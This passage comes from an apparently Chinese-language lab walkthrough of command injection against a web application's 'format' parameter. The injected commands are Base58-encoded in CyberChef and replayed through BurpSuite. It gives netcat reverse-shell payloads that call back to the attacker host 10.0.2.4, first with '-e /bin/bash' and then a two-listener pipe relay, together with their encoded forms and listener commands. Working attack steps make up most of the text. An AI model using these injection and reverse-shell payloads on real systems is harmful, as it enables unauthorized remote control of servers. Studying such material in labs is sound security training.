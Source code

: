 ![image-20211104085819231](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104085819231.png)

CyberChef:

```
&&nc 10.0.2.4 4444 -e /bin/bash --To Base58-->ajvuL5RnJqominfmDbYteLFr6rCZdb3VR633BCa2fH
```

BurpSuite:

```
--Repeater内将format参数值替换为ajvuL5RnJqominfmDbYteLFr6rCZdb3VR633BCa2fH-->Send重放
```

![image-20211104090046890](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104090046890.png)

仍然报错，说明不包含-e参数，且nc建立连接失败，则**确定目标系统上nc版本不包含-e参数**

##### 2.若无则可以使用**nc串联**的方法通过管道方式在两个侦听接口上获得反弹shell

kali:

```
nc -nvlp 4444  #nc侦听4444端口
```

```
nc -nvlp 5555  #nc侦听5555端口
```

![image-20211104092959229](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104092959229.png)

CyberChef:

```
&&nc 10.0.2.4 4444 | /bin/bash | nc 10.0.2.4 5555
```

--To Base58-->

```
7BFuYVuCc4LN4GRLNFCY4RZyKX7GVbfGEaUnJSCQ2RUmJmcZNi67Nw5ewqKqyTusCZS
```

BurpSuite:

```
--Repeater内将format参数值替换为7BFuYVuCc4LN4GRLNFCY4RZyKX7GVbfGEaUnJSCQ2RUmJmcZNi67Nw5ewqKqyTusCZS-->Send重放
```

![image-20211104093156854](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104093156854.png)

至此，nc**建立连接成功**

### 3.寻找信息

```
ls
```

